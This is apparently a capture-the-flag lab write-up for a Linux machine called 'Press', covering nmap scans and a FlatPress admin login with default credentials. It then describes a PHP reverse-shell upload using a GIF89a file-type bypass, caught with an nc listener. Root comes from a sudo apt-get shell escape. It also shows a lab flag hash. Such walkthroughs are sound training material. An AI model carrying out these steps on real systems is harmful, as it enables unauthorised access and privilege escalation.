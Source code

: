 # Linux - Press

---

### Host Info

- We are given an intermediate machine with IP of `192.168.181.29` . We can first use `nmap` to scan over it.
    
    ```bash
    > nmap -sCV -A -Pn -O -p- 192.168.181.29 -oN tcpnmap.md
    > sudo nmap -sU -Pn 192.168.181.29 --top-ports=100 --reason -oN udpnmap.md
    ```
    
    ```bash
    # TCP
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
    |   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
    |_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
    
    80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
    |_http-title: Lugx Gaming Shop HTML5 Template
    |_http-server-header: Apache/2.4.56 (Debian)
    
    8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
    |_http-server-header: Apache/2.4.56 (Debian)
    |_http-generator: FlatPress fp-1.2.1
    |_http-title: FlatPress
    
    Device type: general purpose
    Running: Linux 5.X
    OS CPE: cpe:/o:linux:linux_kernel:5
    OS details: Linux 5.0 - 5.14
    Network Distance: 4 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    

### Important Info

```bash
N/A
```

### Initial Foothold

- We notice `port 80` is open with http server. We tried visit webpage and get a static page. Tried to click “SIGN IN” but nothing shows up.
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image.png)
    

- Check `port 8089` and we can get a `FlatPress` welcome page. There’s a login option for admin.
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%201.png)
    
    Click login and then try weak password `admin : password` , then we can access into the administration page.
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%202.png)
    

- Googled “FlatPress exploit”, we can get a very useful information → https://github.com/flatpressblog/flatpress/issues/152.
    
    By following this Github issue repot, we are able to upload a php reverse shell file to the “Uploader” and then execute it in “Media manager”. ( I used ivan-sincek php reverse shell here, need to change your Kali IP and port in the file.)
    
    At the beginning of your `shell.php` , you need to add `GIF89a;`  to bypass file type verification.
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%203.png)
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%204.png)
    

- Listen on your Kali, we can get `www-date` as low-privilege shell.
    
    ```bash
    > rlwrap nc -lvnp 9090
    ```
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%205.png)
    

### Privilege Escalation

- By running `sudo -l` , we found that we can sudo run “apt-get” without password. Search over `GTFOBins` , we can find a way to PE by “Sudo”.
    
    ```bash
    > sudo -l
    
    > sudo apt-get changelog apt
    > !/bin/sh
    
    > whoami
    	: root
    	
    - proof.txt : 0896d050849aec32ccb6978f202b5730
    ```
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%206.png)
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%207.png)
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%208.png)
    
    ![image.png](Linux%20-%20Press%201b0553bebf0f8028ba75ecc88dfb134f/image%209.png)
    

### Reference

- https://github.com/flatpressblog/flatpress/issues/152
- https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php
- https://gtfobins.github.io/gtfobins/apt-get/